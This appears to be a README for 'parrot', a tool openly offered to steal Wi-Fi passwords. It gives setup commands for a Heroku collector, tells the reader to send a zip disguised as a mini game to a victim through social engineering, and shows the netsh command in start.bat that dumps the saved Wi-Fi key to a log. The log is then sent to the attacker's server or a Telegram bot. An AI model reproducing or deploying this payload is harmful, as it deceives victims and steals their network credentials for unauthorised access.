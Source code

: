 # parrot Wi-Fi hacking tool
this is a simple payload that sends the password of a known wifi  to rouge sever.
# requirements
node.js https://nodejs.org/en/download/  
heroku account https://signup.heroku.com/  
heroku cli https://devcenter.heroku.com/articles/heroku-cli#download-and-install  

# usage
```shell
git clone https://github.com/ba5liel/parrot.git  
cd parrot  
heroku login  
git push -u heroku 
```
send the Game-monkey-lander.zip to victim using any social engineering techniques. and make sure the victim opens the start.bat file  
now you can see the password at [yourapp].heroku.com or it's sent to your telegram account through the bot you setted up using @BotFather
# payload
this include a mini game that launches when start.bat is opened.  
you must change the start.bat in the payload    

netsh wlan show profile "victim wifi name here" key=clear > bin\log.txt  

#enjoy
